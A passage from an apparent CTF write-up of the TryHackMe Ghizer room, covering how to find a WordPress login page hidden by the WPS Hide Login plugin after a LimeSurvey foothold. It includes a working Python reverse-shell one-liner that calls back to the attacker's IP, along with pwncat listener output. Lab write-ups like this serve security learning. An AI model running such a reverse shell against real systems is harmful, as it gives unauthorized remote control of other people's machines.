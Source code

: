 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Ghizer/images/a4.png)

Also, it said: `I use the plugin WPS Hide Login for hide wp-login!`

By default, WordPress login page is in `/wp-login.php`. If the WordPress has `WPS Hide Login` plugin installed, the login will changed.

> Note: There are 2 ways to find the login url. The first way requires initial foothold in LimeSuvey.

### Finding Login URL in WordPress 1 - LimeSurvey RCE -> MySQL

**Since we're already has remote access to the target machine, we can go to MySQL database and look for the value of `whl_page` in `wp_options` table.** (Source: [GreenGeeks](https://www.greengeeks.com/tutorials/use-wps-hide-login/))

**But before we do that, make sure our reverse shell is stabled:** (If you're using `pwncat-cs`, press `Ctrl + D` to switch to remote mode.)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# pwncat-cs -lp 4444

$ python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.27.249",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'

[04:31:20] Welcome to pwncat 🐈!                                                            __main__.py:164
[04:32:00] received connection from 10.10.160.234:60446                                          bind.py:84
[04:32:05] 10.10.160.234:60446: registered new host w/ db                                    manager.py:957
(local) pwncat$                                                                                            
(remote) www-data@ubuntu:/var/www/html/limesurvey$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```